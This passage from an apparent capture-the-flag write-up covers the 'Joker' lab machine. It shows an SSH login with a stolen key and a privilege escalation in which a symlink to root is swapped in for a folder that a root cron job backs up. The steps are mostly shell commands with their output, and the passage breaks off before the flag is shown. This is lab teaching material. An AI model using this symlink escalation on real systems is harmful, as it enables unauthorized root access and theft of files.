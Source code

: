 ```bash
root@kali:/tmp# ssh alekos@10.10.10.21 -i id_rsa
The authenticity of host '10.10.10.21 (10.10.10.21)' can't be established.
ECDSA key fingerprint is SHA256:1yj4blzJwO5TYIZYFB3HMwXEqeflHc2iF1Idp3lZ94k.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.21' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.10 (GNU/Linux 4.8.0-52-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Sat May 20 16:38:08 2017 from 10.10.13.210
alekos@joker:~$
```

Privilege Escalation to Root
=========================

So now we have access to the alekos user but we need to escalate to root.  In the home folder we see an interesting folder called `backup` filled with a number of .tar.gz files seemingly generated every five minutes.
```bash
alekos@joker:~$ ls
backup  development  user.txt
alekos@joker:~$ cd backup
alekos@joker:~/backup$ ls -la
total 136
drwxrwx--- 2 root   alekos 12288 Sep 22 21:35 .
drwxr-xr-x 7 alekos alekos  4096 May 19 17:58 ..
-rw-r----- 1 root   alekos 40960 Sep 22 21:25 dev-1506104701.tar.gz
-rw-r----- 1 root   alekos 40960 Sep 22 21:30 dev-1506105001.tar.gz
-rw-r----- 1 root   alekos 40960 Sep 22 21:35 dev-1506105301.tar.gz
```

If you inspect the individual files you'll see that they're simply creating a backup of the development folder, but what's most interesting is that they're owned by root, but give our user alekos read permissions.  If we look at the cron jobs in /etc we so no such reference to this cron job, telling us it's been configured to be run by the root user rather than in crontab.  

Getting the Flag
-------------------

Since this is creating a root owned gz file but with alekos as the owner, this tell us that there may be some editing done of the permissions of the files that this script backs up. 

All we need to do is create a symlink to /root in place of development, which will hopefully result in the contents of that folder being dumped into an archive in the backup folder.
```bash
alekos@joker:~$ mv development/ development.bak
alekos@joker:~$ ln -s root development
alekos@joker:~$ ls -la
total 52
drwxr-xr-x 7 alekos alekos  4096 Sep 22 21:46 .
drwxr-xr-x 3 root   root    4096 May 16 03:21 ..
drwxrwx--- 5 root   alekos 12288 Sep 22 21:43 backup
-rw------- 1 root   root       0 May 17 01:31 .bash_history
-rw-r--r-- 1 alekos alekos   220 May 16 03:21 .bash_logout
-rw-r--r-- 1 alekos alekos  3771 May 16 03:21 .bashrc
drwx------ 2 alekos alekos  4096 May 17 02:24 .cache
lrwxrwxrwx 1 alekos alekos     4 Sep 22 21:46 development -root
drwxr-x--- 5 alekos alekos  4096 May 18 19:21 development.bak
drwxr-xr-x 2 alekos alekos  4096 May 17 01:57 .nano
```